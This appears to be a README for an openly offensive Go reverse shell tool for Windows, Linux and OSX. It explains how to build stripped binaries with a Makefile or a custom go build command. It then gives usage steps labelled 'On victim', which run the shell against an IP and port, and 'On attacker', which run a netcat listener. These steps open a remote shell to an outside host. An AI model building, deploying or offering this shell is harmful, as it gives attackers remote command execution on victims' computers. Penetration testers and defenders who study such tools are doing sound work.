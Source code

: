 # Go reverse shell for Win/Linux/OSX

Small Go reverse shell for Windows, Linux and OSX.
Calls the given shell (`shellPath`) and redirects std-pipes to communicate with the server socket.
Tested with `go1.12`.

Similar reverse shells and partially based on:

* `https://gist.github.com/moloch--/86068b6019ff5e3280725230dcafa892`
* `https://github.com/FireFart/goshell`

## Usage & Building

### Building

Create a executables with `Makefile`:

* for Windows: `make win`
* for Windows with Powershell: `make winps`
* for Linux: `make linux`
* for OSX: `make osx`

#### Custom Build

`GOOS=<ARCH> go build -ldflags "-s -w -X main.shellPath=<PATH>" -o shell *.go`

### Usage

* On victim: `./shell <IP> <PORT>`
* On attacker: `nc -lvp <PORT>`
